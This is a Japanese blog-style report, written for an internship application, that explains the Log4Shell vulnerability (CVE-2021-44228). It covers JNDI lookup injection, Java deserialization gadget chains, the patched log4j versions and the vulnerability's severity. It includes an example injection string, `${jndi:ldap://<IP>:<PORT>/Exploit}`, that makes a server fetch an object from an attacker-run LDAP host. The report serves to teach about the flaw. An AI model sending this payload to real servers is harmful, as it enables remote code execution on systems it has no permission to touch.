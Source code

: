 ```yaml
---
title: "log4shell 調査レポート in Flatt Security 応募課題"
emoji: "📐"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["security", "log4shell", "log4j"]
published: true
---
```


## はじめに

この記事は、Flatt Security サマーインターン in 2023 に参加した際に、log4j の任意コード実行脆弱性(CVE-2021-44228)について調査した際のレポートです。
このレポートをサマーインターンの応募課題として提出しました。
もともとは参加体験記の記事に含める予定でしたが、長くなりすぎたため、別記事として投稿することにしました。
読みやすいように、独自でセクションを分けています。

間違い等あれば、コメントで教えていただけると幸いです。

## 概要

私が興味のある脆弱性は、log4shell です。  
CVE 番号は CVE-2021-44228 です。
以下に、JVN のリンクを示します。  
https://jvndb.jvn.jp/ja/contents/2021/JVNDB-2021-005429.html  
この脆弱性は、Apache log4j と呼ばれる Java 向けのロギングプログラムに存在した脆弱性です。このプログラムが動作しているサーバに特殊なリクエストを送信すると任意コード実行につながってしまう危険な脆弱性でした。

### 脆弱性の種類

任意コード実行につなげる筋道としては、以下の二種類の脆弱性によって起こりうるものと認識すると分かりやすいです。

- サーバサイドテンプレートインジェクションに相当する脆弱性
- 安全でないデシリアライズに相当する脆弱性  
  このうち、前者の脆弱性は任意オブジェクトを読み込ませるために、後者の脆弱性は任意オブジェクトを読み込まれたときに任意コード実行を行うために利用されます。  

https://en.wikipedia.org/wiki/Log4Shell

## 攻撃手法の詳細や対策

では、脆弱性の詳細についての解説を行っていきます。

### テンプレートインジェクションに相当する脆弱性

まず、jdni について解説します。  
これは、Java Naming and Directory Interface の略で、Java から様々なネームサービスまたはディレクトリサービスに接続するための機能です。
これを利用することで、Java から DNS や LDAP などのサービスに同じような API で接続することができます。  
そして、jdni には、外部のサービスに接続するための URL を指定し、そこに対して問い合わせを行って外部データを取得できるといった、jdni lookup 機能というものが存在します。  
そして、この lookup 機能を、テンプレートインジェクションで呼び出すことが出来てしまうのが前者の脆弱性の特徴です。  
log4j のログには、ある特定のテンプレートに沿った文字列を自動的に置き換える、いわば Web フレームワークにおけるテンプレートエンジンのような機能が搭載されていました。  
しかし、これが外部から与えられた安全でない文字列に対してもテンプレートによる置換を行ってしまいます。  
これが原因で、jdni lookup を発動させ、任意オブジェクトをサーバに読み込ませる事が可能になっていたのです。  
具体的には、以下のような形式でテンプレート置換を発生させることができます。

```
${プレフィックス:名前}
```

ここに jdni プレフィックスを指定することが可能です。  
jndi では、以下のような表現が存在します。

```
${jndi:<URL>}
```

この表現で、任意の URL の先に存在するオブジェクトを読み込むことができます。
この URL で対応しているプロトコルスキームのうち、LDAP と RMI は、Java の任意オブジェクトを読み込むことができるため、任意コード実行につながってしまいます。  
では、攻撃者は具体的にどのようにして攻撃するのでしょうか。  
ここでは、LDAP プロトコルで例を示します。  
攻撃者は、以下のような文字列を User-Agent に設定して、サーバにリクエストを送信します。

```
${jndi:ldap://<IP>:<PORT>/Exploit}
```

ここで、悪意のある LDAP 配信をするサーバを攻撃者が何らかの方法で用意し、そのサーバに対するリクエストを発生させれば、jdni lookup が発動して任意オブジェクトを読み込ませることができます。  
https://techblog.securesky-tech.com/entry/2022/04/21/what-happened-log4shell

### デシリアライズに相当する脆弱性

後者の脆弱性は、log4j に特有のものではなく、Java 全体で通用する脆弱性です。  
手法が複雑であるため、ここでは簡単な解説にとどめます。  
Java では、オブジェクトのシリアライズとデシリアライズを行うことができます。  
シリアライズとは、オブジェクトをバイト列に変換することで、デシリアライズとはその逆の操作です。  
しかし、デシリアライズを行う際には、そのオブジェクトが安全であるかどうかを検証する必要があります。  
その検証を行わない場合、攻撃者は任意のオブジェクトを読み込ませて、任意コード実行を行うことができてしまいます。  
今回の log4shell の攻撃の場合は、そもそも jndi lookup が予期しない呼び出しであったため、検証は全く行われません。  
不正オブジェクトから任意コード実行を行う手法としては、マジックメソッドを利用するというものがあります。  
これは、オブジェクトのデシリアライズ時に、特定のメソッドが呼び出されることを利用し、そのメソッドをあらかじめ用意した不正オブジェクトをロードさせることで、任意コード実行を行うものです。  
ただし、実際にはそのような都合の良いマジックメソッドは存在しない場合が殆どです。  
そのため、ガジェットチェーンのような複雑な手法を用いて、任意コード実行を行う必要があります。  
https://yamory.io/blog/about-insecure-deserialization/  
このような不正オブジェクトを生成するツールとしては、ysoserial というものが存在します。  
https://github.com/frohoff/ysoserial

### 対策

この脆弱性に対して、以下のような対策が施されました。

- 2.15.0: デフォルトでプロトコルを java、ldap、および ldaps のみに制限し、ldap プロトコルについてはローカルホスト上で動作するオブジェクトのみに制限　また、ログ機能に含まれるルックアップのデフォルト無効化

https://logging.apache.org/log4j/2.x/release-notes/2.15.0.html
- 2.16.0: jdni を利用するメッセージルックアップの機能の削除、デフォルトでの jdni の無効化  

https://logging.apache.org/log4j/2.x/release-notes/2.16.0.html
- 2.17.0: サポートプロトコルとして LDAP および LDAPS を jdni から削除 jdni を Java プロトコルのみに制限  

https://logging.apache.org/log4j/2.x/release-notes/2.17.0.html

### 脆弱性の深刻さ

log4shell 脆弱性は、発見当初から大きな話題となりました。  
Apache Software Foundation は、この脆弱性に対して、CVSS 評価を 10.0 とする最大評価を与えました。  
CVSS とは Common Vulnerability Scoring System の略で、脆弱性の深刻度を評価するための手法です。  
このことからも、log4shell がどれほど深刻な脆弱性であったかがわかります。  
この脆弱性が発表された後、Java のプログラムを利用している多くの企業が、この脆弱性に対して対策を行いました。  
しかし、Java のマルチプラットフォーム性が裏目に出て、対策が困難であったり不可能であったりする機器も多く存在しています。  
また、この脆弱性は、悪意のあるハッカーによっても大いに悪用されています。  
log4shell を用いた攻撃を、ランサムウェアアクターの一種である Conti グループが行っていることが確認されています。  
この事例では、当グループは log4shell 脆弱性を積極的に利用し、VMWare vCenter ネットワークを標的にしていることがわかっています。
この点から、重大な攻撃に使われるような脆弱性であったことがわかります。

## まとめ

この脆弱性を調べて、クリティカルな脆弱性は、複数のミスがチェーンのように連携されて、RCE につながっていることが多いことを改めて感じました。  
また、脆弱性を一度腰を据えて詳細を調べてみる事で、その脆弱性の深刻さを理解することができました。  
また、任意コード実行の可能な脆弱性のかなりの割合を、安全でないデシリアライズ脆弱性が占めているのではないか？と気が付きました。  
今後はこの分野の脆弱性についての知見をしっかり深めていきたいと思うようになりました。

